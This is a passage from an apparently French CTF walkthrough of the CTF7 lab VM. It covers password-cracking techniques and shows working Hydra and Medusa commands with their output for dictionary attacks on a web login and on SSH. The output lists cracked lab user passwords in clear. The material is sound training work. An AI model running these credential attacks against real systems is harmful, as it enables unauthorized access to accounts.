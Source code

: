 ```console
madrid
somepassword
LosAngelesLakers
Jets4Ever
chuck33
changeme
test
```

## Attaques par dictionnaire sur les services de la VM CTF7

Pour trouver les mots de passe de Brian, d'Alice, de Ruby, de Charles ou encore de Michael, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.

L'outil-couteau-suisse [__Hydra__](https://sectools.org/tool/hydra/) est de sortie pour une attaque par dictionnaire, avec les _credentials_ trouvés précédemment !

```console
root@blinils:~# hydra -L CTF7-users -P CTF7-passwords 192.168.56.103 \
-t 4 -s 8080 http-form-post "/index.php:username=^USER^&password=^PASS^:Invalid"

--snip--
[DATA] attacking http-post-form://192.168.56.103:8080//index.php:username=^USER^&password=^PASS^:Invalid
[8080][http-post-form] host: 192.168.56.103   login: test   password: test
1 of 1 target successfully completed, 1 valid password found
--snip--
```

Et hop, le couple ```test:test``` fonctionne sur l'interface d'administration du site, accessible sur le port 8080. Et pour SSH ?

```console
root@blinils:~# hydra -L CTF7-users -P CTF7-passwords -t 4 ssh://192.168.56.103

--snip--
[DATA] max 4 tasks per 1 server, overall 4 tasks, 144 login tries (l:12/p:12), ~36 tries per task
[DATA] attacking ssh://192.168.56.103:22/
1 of 1 target completed, 0 valid passwords found
--snip--
```

Bizarre... je ne sais pour quelle raison Hydra fait chou blanc, alors que d'autres outils comme [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) ou [__Patator__](https://github.com/lanjelot/patator) trouvent des mots de passe valides.

```console
root@blinils:~# medusa -h 192.168.56.103 -U CTF7-users -P CTF7-passwords -M ssh -v 4
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: brian Password: my2cents [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: john Password: transformersrule [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: alice Password: turtles77 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: ruby Password: Shelly2012 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: leon Password: qwer1234 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: julia Password: madrid [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: michael Password: somepassword [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: bruce Password: LosAngelesLakers [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: neil Password: Jets4Ever [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: charles Password: chuck33 [SUCCESS]
```